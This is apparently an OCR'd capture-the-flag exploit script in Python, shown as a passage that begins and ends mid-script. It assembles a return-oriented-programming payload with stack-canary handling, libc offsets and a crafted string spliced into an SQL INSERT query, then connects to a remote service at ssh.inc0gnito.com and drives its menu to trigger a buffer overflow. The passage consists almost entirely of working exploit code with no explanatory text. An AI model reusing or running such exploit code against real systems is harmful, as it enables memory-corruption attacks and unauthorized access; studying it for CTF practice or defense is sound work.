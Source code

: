 ```python
    pay += qtol(0x3130 + base)
    pay += 'A' * 8 * 7
    return pay

with open('libc-2.19.so', 'rb') as f:
    lb = f.read()

get_canary = "\x64\x48\x8B\x04\x25\x28\x00\x00\x00\x48\xA3\xFC\xF2\xB6\xFF\xFF\x7E\x00\x00\xC3"
sc1 = "\x5F\x5E\x5A\x59\x41\x58\x41\x59\xC3"
sc2 = "/tmp/f"

log = 'C' * 520
log += qtol(canary)
log += qtol(ret) * 4
for i in range(len(sc2)):
    log += regs(bss + i, libc_base + lb.index(sc2[i]), 1)
    log += qtol(base + 0x1390)
log += regs(bss, 0, 0)
log += qtol(libc_base + 0x46640)

query = 'INSERT INTO messages(message) VALUES (\'%s\')' % log

pay = ''
pay += regs(bss, 4096, 7)
pay += qtol(libc_base + 0xf4a20)
pay += call(0x2050c0, 0, bss, len(sc1))
pay += call(0x205060, 1, bss, len(sc1))
pay += regs2(0x400000, 0x4000, 7, 50, -1, 0)
pay += qtol(libc_base + 0xf49c0)
pay += regs(0x400000, len(query), 0)
pay += qtol(base + 0x1888)
pay += call(0x205060, 1, 0x400000, len(query))
pay += qtol(base + 0x17cc)
pay += regs(0x7effffb6ee00, 0x400000, len(query))
pay += qtol(base + 0x1420)

pipe = pwnbox.pipe.SocketPipe('ssh.inc0gnito.com', 32323)
pipe.read_line(4)

pipe.read_line(14)
pipe.write('1')
pipe.read_line(2)
pipe.write(qtol(3000))
pipe.write(qtol(ret) * ((3000 - len(pay)) / 8) + pay)
pipe.read_until('1. Login')

pipe.read_line(14)
pipe.write('3')
pipe.read_until(': ')
pipe.write(qtol(len(todo)))
pipe.write(todo)
pipe.read_until('success\n')

pipe.read_line(14)
pipe.write('5')
pipe.read_until('delete\n')
pipe.write(qtol(0))
pipe.read_until('success\n')

pipe.read_line(14)
pipe.write('4')
pipe.read_until('contents\n')
pipe.write(qtol(1))
```